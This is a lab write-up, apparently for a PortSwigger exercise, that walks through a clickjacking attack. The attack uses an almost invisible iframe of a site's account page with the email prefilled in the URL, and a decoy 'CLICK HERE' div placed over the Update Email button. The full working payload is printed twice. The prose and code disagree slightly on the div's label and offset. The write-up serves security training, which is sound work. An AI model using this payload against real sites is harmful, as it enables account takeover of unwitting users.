



In this apprentice level lab, we will exploit the change email flow from a website vulnerable to clickjacking due to form filling via url parameters.

---

Upon logging in with the given credentials, we notice that after going to the acount page, all that is needed to change a user’s email is click on the `Update Email` button and that the `email` input can be prefilled by adding it via url parameters. Let’s use the writing material’s clickjacking template to craft our exploit:

```jsx
<head>
	<style>
		iframe {
			position:relative;
			width:700px;
			height:600px;
			opacity:0.1;
			z-index:2;
			}
		div {
			position:absolute;
			z-index:1;
			}
	</style>
</head>
<body>
	<div>
		CLICK HERE
	</div>
	<iframe src="${LAB_ACCOUNT_ROUTE_URL}?email=attacker@email.com">
	</iframe>
</body>
```

This is how the template looks on our exploit server:



We need to modify the location of the `CLICK ME` div tag so that it is on top of the `Update Email` button on the vulnerable website. Note that we are setting the iframe’s opacity to `0.1` to be able to check the exploit appearance and then modifying the div’s top and left CSS properties so that when a logged in user clicks on the `CLICK ME` div on our website, they are actually clicking on the vulnerable website’s button to update their email to whatever we previously set in the URL parameters. After setting the top property to 500px and the left property to 50px, it looks like the buttons are aligned to perform a successful attack. At this point, our exploit looks like this:

```jsx
<head>
	<style>
		iframe {
			position:relative;
			width:700px;
			height:600px;
			opacity:0.1;
			z-index:2;
			}
		div {
			position:absolute;
			z-index:1;
			top:450px;
			left:50px;
			}
	</style>
</head>
<body>
	<div>
		CLICK HERE
	</div>
	<iframe src="${LAB_ACCOUNT_ROUTE_URL}?email=attacker@email.com">
	</iframe>
</body>
```



All we need to do is set the iframe’s opacity to 0.00001 or something similar so that it is almost invisible and send the exploit to our victim.

Check out this post in Art Of Code: https://artofcode.tech/portswigger-lab-write-up-clickjacking-with-form-input-data-prefilled-from-a-url-parameter/
